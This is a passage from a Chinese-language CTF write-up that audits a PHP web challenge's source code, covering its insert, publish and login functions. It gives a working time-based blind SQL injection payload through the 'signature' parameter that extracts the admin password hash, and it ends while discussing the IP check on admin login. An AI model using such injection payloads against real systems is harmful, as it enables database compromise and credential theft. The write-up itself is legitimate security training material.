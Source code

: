 发现 `insert` 函数中将所有 `` `xxx` `` 替换成 `'xxx'`，因此可以进行注入，但是由于 `register` 还进行了 `check_username` 处理，继续审计。

在 `publish` 中找到漏洞利用点。

```php
function publish()
{
    ...
    if(isset($_POST['signature']) && isset($_POST['mood'])) {

        $mood = addslashes(serialize(new Mood((int)$_POST['mood'],get_ip())));
        $db = new Db();
        @$ret = $db->insert(array('userid','username','signature','mood'),'ctf_user_signature',array($this->userid,$this->username,$_POST['signature'],$mood));
        if($ret)
            return true;
        else
            return false;
    }
    ...
}
```
其中 `signature` 参数可控，通过 SQL 注入得到 admin 密码 md5 值，解出为 `nu1ladmin`。
```sql
signature=1`,if((ascii(substr((select password from ctf_users where is_admin=1),1,1))=113),sleep(3),1))#&mood=1
```

然而还是无法登录，再看 `login` 函数
```php
function login() {
    ...
    @$ret = $db->select(array('id','username','ip','is_admin','allow_diff_ip'),'ctf_users',"username = '$username' and password = '$password' limit 1");
    
    if($ret)
    {
    
        $user = $ret->fetch_row();
        if($user) {
            if ($user[4] == '0' && $user[2] !== get_ip())
                die("You can only login at the usual address");
            if ($user[3] == '1')
                $_SESSION['is_admin'] = 1;
            else
                $_SESSION['is_admin'] = 0;
            $_SESSION['userid'] = $user[0];
            $_SESSION['username'] = $user[1];
            $this->username = $user[1];
            $this->userid = $user[0];
            return true;
        }
        else
            return false;
    }
    ...
}
```
发现会验证是否同 ip，而 admin 必须来自 127.0.0.1
